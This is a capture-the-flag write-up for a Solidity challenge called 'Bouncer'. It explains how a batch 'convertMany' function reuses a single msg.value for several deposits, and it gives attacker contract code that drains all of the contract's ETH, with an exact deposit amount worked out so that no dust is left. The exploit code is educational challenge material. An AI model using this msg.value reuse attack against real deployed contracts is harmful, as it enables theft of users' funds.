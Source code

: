 The goal is to steal the contract's ETH funds.
You can create deposits (_entries_) of any value by paying a **fixed 1 ETH fee** per entry.
Afterwards, you pay the actual value of each deposit using the `convert` function. The bug is that the `convert` function checks `msg.value` but there's another `convertMany` function that batch-processes deposits. As the `convert` calls are just internal, `msg.value` is still the same for all deposits and you only need to pay for a single one.

We will exploit this by making two deposits.
What makes this challenge a bit harder is that we may not leave any dust in the contract, so we need to calculate the exact deposit amount that ends up in the contract.
After everything is paid the contract's funds are:

1. The initial balance (50 ETH + 4 ETH from setup contract)
2. The 2 ETH fee for our two deposits
3. The deposit value (`x`) itself, once

We receive `2x` when withdrawing our deposits, meaning we need to solve this equation:


```solidity
2x == initial_balance + fees + x
=> x = initial_balance + fees
```

The attacker contract code:

```solidity
function attack() external payable {
    uint256 bouncerBalance = address(bouncer).balance;

    // 1 ether entry fee
    // need to empty bouncer balance.
    // bouncer balance when we call payout will be:
    // initial balance + our fee + x, where x is the entry amount (need to pay ONCE in convertMany)
    // we want it to be equal to twice the payout amount, 2x
    // => 2x = IB + fees + x => x = IB + fees
    uint256 _amount = bouncerBalance + 2 * 1 ether;
    bouncer.enter{value: 1 ether}(ETH, _amount);
    bouncer.enter{value: 1 ether}(ETH, _amount);

    withdrawalAmount = _amount;
}

function attack2() external payable {
    uint256[] memory ids = new uint256[](2);
    for (uint256 i = 0; i < ids.length; i++) {
        ids[i] = i;
    }
    bouncer.convertMany{value: withdrawalAmount}(address(this), ids);

    bouncer.redeem(ERC20Like(ETH), withdrawalAmount * ids.length);
}
```

## Broker
